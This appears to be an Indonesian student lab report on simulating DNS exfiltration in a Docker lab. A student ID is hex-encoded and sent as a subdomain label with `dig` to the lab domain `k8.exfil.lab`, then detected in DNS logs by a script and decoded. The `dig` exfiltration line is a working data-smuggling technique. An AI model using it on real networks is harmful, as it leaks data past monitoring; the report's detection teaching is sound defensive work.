






# DNS Exfiltration — Kasus 8

**Pertemuan:** 7

## Tujuan

Mensimulasikan pencurian data lewat query DNS (data dikodekan hex di label subdomain), lalu mendeteksinya dari log DNS dan mendekode kembali.

## Langkah dan Perintah

```bash
docker compose -p k8 -f b/b4-dns-exfil/docker-compose.yml up -d
echo -n 24552011387 | xxd -p
docker compose -p k8 -f b/b4-dns-exfil/docker-compose.yml exec attacker dig +short 3234353532303131333837.k8.exfil.lab @dns
docker compose -p k8 -f b/b4-dns-exfil/docker-compose.yml logs dns > dns-k8.log
python3 kasus/k8-dns-exfil/analisis_dns.py dns-k8.log
echo 3234353532303131333837 | xxd -r -p
docker compose -p k8 -f b/b4-dns-exfil/docker-compose.yml down -v
```

- `up -d` menjalankan server DNS (dnsmasq) dan container attacker pada jaringan `k8_lab`.
- `echo -n 24552011387 | xxd -p` mengubah NIM menjadi hex: `3234353532303131333837`.
- `dig +short <hex>.k8.exfil.lab @dns` mengirim query DNS dengan data sebagai label subdomain ke server DNS lab.
- `logs dns > dns-k8.log` menyimpan log server DNS ke file.
- `analisis_dns.py` menghitung query per domain induk, menandai query dengan label berisi hex, dan mendekode labelnya.
- `xxd -r -p` mendekode hex kembali menjadi teks asli.

## Bukti Screenshot

**Screenshot 1:** Lingkungan DNS exfiltration dijalankan (jaringan `k8_lab`, `k8-dns-1`, `k8-attacker-1`).



**Screenshot 2:** Dekode hex `3234353532303131333837` kembali menjadi NIM dengan `xxd -r -p`.



**Screenshot 3:** Query `dig` dengan label hex dijawab server DNS dengan `10.0.0.99`.



**Screenshot 4:** Log DNS disimpan ke `dns-k8.log`.



**Screenshot 5:** Keluaran `analisis_dns.py`: jumlah query per domain induk, query mencurigakan, dan hasil decode.



**Screenshot 6:** Pembersihan lingkungan dengan `down -v`.



## Hasil Pengujian

1. **Enkode.** NIM `24552011387` diubah menjadi hex `3234353532303131333837` dan dikirim sebagai label subdomain pada query `3234353532303131333837.k8.exfil.lab`, yang dijawab server DNS dengan `10.0.0.99` (Screenshot 3).
2. **Log.** Log server DNS berhasil disimpan ke `dns-k8.log` (Screenshot 4).
3. **Deteksi.** `analisis_dns.py` melaporkan `exfil.lab: 1` pada jumlah query per domain induk, lalu menandai query mencurigakan dengan `panjang=22` pada domain `3234353532303131333837.k8.exfil.lab` (Screenshot 5).
4. **Dekode.** Hasil decode pada keluaran skrip adalah `24552011387` (Screenshot 5). Perintah `echo 3234353532303131333837 | xxd -r -p` juga menghasilkan `24552011387`, sama dengan NIM asli (Screenshot 2).

## Kesimpulan

Data dapat diselundupkan lewat label subdomain pada query DNS dan tetap sampai ke server DNS penyerang. Pada praktikum ini, pencurian data tersebut berhasil dideteksi dari log DNS melalui label panjang berisi karakter hex pada domain `k8.exfil.lab`, dan isinya berhasil didekode kembali menjadi NIM `24552011387`. Deteksi dapat dilakukan dengan memeriksa panjang label, pola hex, dan jumlah query per domain induk.
